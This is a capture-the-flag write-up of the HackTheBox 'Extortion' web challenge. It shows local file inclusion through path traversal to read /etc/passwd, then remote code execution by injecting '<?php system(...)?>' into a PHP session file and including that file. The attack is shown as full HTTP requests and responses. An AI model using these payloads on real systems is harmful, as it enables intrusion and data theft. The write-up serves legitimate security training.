 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - Extortion

Category: Web, Points: 300

![info.JPG](images/info.JPG)

# Extortion Solution

Let's start the docker and browse it:

![index.JPG](images/index.JPG)

By intercepting the request on "AIRSHIP" button click with [Burp](https://portswigger.net/burp) we can see the following request:

![airship.JPG](images/airship.JPG)

So we can see in request ```?f=airship.php```, Let's check if we can use [LFI](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) by browsing to the following link [http://178.62.14.240:32578/?f=f=../../../../../../../../../../etc/passwd](http://178.62.14.240:32578/?f=f=../../../../../../../../../../etc/passwd).

The link above give us empty page but if we look at the source we can see the following:
```HTML
...
}), /*#__PURE__*/
    React.createElement("div", { className: "star-large" }), /*#__PURE__*/

    React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
"), /*#__PURE__*/
)));
}
</script>
</body>
..
```

So It's mean we can use LFI.

We can upgrade from LFI to RCE with using php session ([Reference](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/)).

First, We need to send the payload from another page, We can see the page Send:

![send.JPG](images/send.JPG)

Which send the following POST request (Intercept using Burp):

![sendburp.JPG](images/sendburp.JPG)

According the tutorial above we can inject our payload at this request with the following POST request:
```HTTP
POST /send.php HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://178.62.14.240:31935
DNT: 1
Connection: close
Referer: http://18.62.14.240:31935/send.php
Upgrade-Insecure-Requests: 1


name=<?php system("ls");?>
```

Remove the ```Cookie``` header (to get a new php session) and set the payload on ```name```.

We get the following response:
```HTTP
HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 13:33:07 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=0be6b1f200c7e5fc67ca58f50c0f5368; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 27020
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Extortion</title>
...
``` 
We can see the new php session we get ```0be6b1f200c7e5fc67ca58f50c0f5368```.

Now, Let's try to read it from with the first request:
```HTTP
GET /?f=../../../../tmp/sess_0be6b1f200c7e5fc67ca58f50c0f5368 HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.14.240:31450/?f=airship.php
Cookie: PHPSESSID=227c0831cad19aaeff242913ed19ca84
Upgrade-Insecure-Requests: 1

```

And at the end of the response we can see the content of ```ls``` command:

```HTTP
...
}), /*#__PURE__*/
    React.createElement("p", null, "plane|s:21:"files
flag_ffacf623917dc0e2f83e9041644b3e98.txt
index.php
send.php
";"), /*#__PURE__*/
)));
}
</script>
</body>
...
```

NOTE: the default php session location is ```/tmp``` directory.


We found the flag file ```flag_ffacf623917dc0e2f83e9041644b3e98.txt```, Let's create another request with command ```cat flag_ffacf623917dc0e2f83e9041644b3e98.txt``` to get the flag:

```HTTP

```

```HTTP
POST /send.php HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://178.62.14.240:31935
DNT: 1
Connection: close
Referer: http://18.62.14.240:31935/send.php
Upgrade-Insecure-Requests: 1


name=<?php system("cat flag_ffacf623917dc0e2f83e9041644b3e98");?>
```

Response:

```HTTP
HTTP/1.1 200 OK
Date: Fri, 23 Apr 2021 13:33:07 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.16
Set-Cookie: PHPSESSID=76667dc1e203e078b760b5d9c1b575df; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 27020
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en" >
<head>
<meta charset="UTF-8">
<title>Extortion</title>
...
``` 

Read the php session again to get the content:
```HTTP
GET /?f=../../../../tmp/sess_76667dc1e203e078b760b5d9c1b575df HTTP/1.1
Host: 178.62.14.240:31935
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://178.62.14.240:31450/?f=airship.php
Cookie: PHPSESSID=227c0831cad19aaeff242913ed19ca84
Upgrade-Insecure-Requests: 1

```

Response:
```HTML
...

   React.createElement("img", { src: "https://media4.giphy.com/media/26BoCVdjSJOWT0Fpu/source.gif", className: "App-logo", alt: "logo" }), /*#__PURE__*/
    React.createElement("p", null, "plane|s:29:"CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}
";"), /*#__PURE__*/
)));
}
```

And we get the flag ```CHTB{th4ts_4_w31rd_3xt0rt10n_@#$?}```.